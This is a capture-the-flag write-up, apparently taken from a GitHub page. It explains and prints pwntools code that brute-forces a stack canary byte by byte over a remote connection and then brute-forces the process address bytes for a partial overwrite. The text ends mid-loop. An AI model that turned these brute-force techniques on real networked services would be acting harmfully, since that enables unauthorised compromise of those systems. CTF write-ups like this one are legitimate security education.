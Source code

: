 The `log_level` of `WARN` will eliminate the connection `INFO` messages emitted from pwntools.  This can be quite annoying, esp. when you're observing the output.

`server` and `port` get set from the command line.  Since multiple servers were provided, I ran against all of them in parallel.

The length of `buf` is the number of bytes just above the canary.  The values `0x48` and `0x10` are from the Ghidra stack diagram, i.e., `local_48` - `local_10`.

`x` is the list of candidate bytes for brute-forcing.  Basically all bytes but `\n`.  When the other end is using something like `fgets` or `gets`, input is terminated with `\n`.  This challenges uses `recv`, which is more like `read`.  Excluding `\n` is probably not necessary, but I was too lazy to read the code.  I figured if there were a `\n` in the canary or process address and since the canary/process address would not change, I could remove and test, but I never got a failure.  Anyway, it probably does not need to be there.

Lastly the canary.  The least significant x86_64 canary byte is `0x00`.  Only 7 bytes to go. :-)


### First Pass: Brute-force stack canary

```python
for i in range(7):
    for j in x:
        p = remote(server,port)
        p.recvuntil('[q] QUIT')
        payload = buf + canary + p8(j)
        p.send(payload)
        try:
            p.recvuntil('[q] QUIT')
            canary += p8(j)
            print(hex(u64(canary + (8 - len(canary)) * b'\x00')))
            p.close()
            break
        except:
            continue
    else:
        print("FAILED, you prob got a LF (0xa) in canary")
        sys.exit(1)

canary = u64(canary)
print('canary',hex(canary))
```

For each of the remaining 7 canary bytes, loop through all the candidate bytes and test if the remote child gets terminated or if returned back to the menu.  If returned back to menu, then that canary byte has been detected.

Locally this takes seconds.  Remotely about 5-10 minutes.


### Second Pass: Brute-force process address LSBytes

```python
bp = 8 * b'B'
selectimg = 0xe06

for i in range(16):
    p = remote(server,port)
    p.recvuntil('[q] QUIT')
    payload = buf + p64(canary) + bp + p16(selectimg + i * 0x1000)
    print(hex(selectimg + i * 0x1000))
    p.send(payload)
    try:
        p.recvuntil('[q] QUIT')
        p.close()
        break
    except:
```
